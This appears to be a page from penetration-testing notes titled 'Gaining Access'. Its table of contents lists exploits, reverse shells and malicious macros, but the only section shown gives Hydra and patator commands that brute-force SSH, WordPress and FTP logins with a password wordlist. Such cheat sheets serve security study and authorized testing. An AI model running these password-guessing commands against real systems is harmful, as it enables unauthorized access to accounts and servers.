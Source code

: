 # Gaining Access
## Table of Contents
* [MS09-050: SMBv2 Command Value Vulnerability](#ms09-050-smbv2-command-value-vulnerability)
  * [CVE-2009-3103](#cve-2009-2532)
* [EternalBlue](#eternalblue)
  * [CVE-2017-0144](#cve-2017-0144)
* [SambaCry](#sambacry)
  * [CVE-2017-7494](#cve-2017-7494)
* [ShellShock](#shellshock)
  * [CVE-2014-6271](#cve-2014-6271)
* [Juicy Potato](#juicy-potato)
* [Shell via Samba Logon Command](#shell-via-samba-logon-command)
* [Online](#online)
  * [Hydra](#hydra)
  * [Crowbar](#crowbar)
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [BASH](#bash-reverse-shells) 
  * [Msfvenom](#msfvenom-reverse-shells)
  * [Netcat](#netcat-reverse-shells)
  * [PowerShell](#powershell-reverse-shells)
  * [Python](#python-reverse-shells)
  * [JavaScript](#javascript-reverse-shells)
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 
* [Macros](#macros)  
  * [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
  * [Example Macro](#example-macro)
  * [Example Macro Syntax Explained](#example-macro-syntax-explained)
  * [VBScript, CScript, and WScript](#vbscript-cscript-and-wscript)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

```bash
patator ftp_login host=$TARGET user=$USER password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
```
